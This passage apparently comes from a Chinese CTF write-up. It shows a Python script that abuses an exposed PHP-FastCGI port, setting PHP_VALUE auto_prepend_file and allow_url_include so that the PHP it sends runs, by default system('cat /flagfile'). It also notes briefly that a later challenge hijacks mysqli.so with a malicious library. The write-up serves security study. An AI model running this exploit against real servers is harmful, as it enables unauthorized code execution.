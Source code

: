 ```php
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php system("cat /flagfile"); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=28074, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))

```

![image-20220705180605364](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220705180605364.png)

##  web813

考点：同样也是加载恶意so文件，只是这个so文件是劫持mysqli.so文件

[看羽师傅的吧](https://blog.csdn.net/miuzzx/article/details/124038567?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165700916316781685398566%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165700916316781685398566&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124038567-null-null.185^v2^tag_show&utm_term=%E5%B8%B8%E7%94%A8%E5%A7%BF%E5%8A%BF&spm=1018.2226.3001.4450)



##  web814
